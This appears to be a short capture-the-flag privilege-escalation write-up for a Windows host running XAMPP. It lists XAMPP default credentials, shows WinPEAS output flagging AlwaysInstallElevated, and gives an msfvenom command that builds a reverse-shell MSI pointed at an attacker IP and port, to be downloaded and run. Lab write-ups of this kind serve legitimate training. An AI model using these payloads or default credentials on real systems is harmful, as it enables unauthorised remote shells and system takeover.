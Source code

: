 # Getting Root

* password.txt
``` powershell
gc passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     
PS C:\xampp> 
```

### Running Winpeas on machine
```bash
???????????? Checking AlwaysInstallElevated                                                                                                                                                   
?  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                                                                               
    AlwaysInstallElevated set to 1 in HKLM!                                                                                                                                                   
    AlwaysInstallElevated set to 1 in HKCU!
```
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
* AlwaysInstallElevated: **If** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) `***.msi**` files as NT AUTHORITY\**SYSTEM**.

### MSFvenom payload
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=9001 -f msi > payload.msi
```

download on the machine the payload and execute

![[Pasted image 20211226143828.png]]

![[Pasted image 20211226143840.png]]

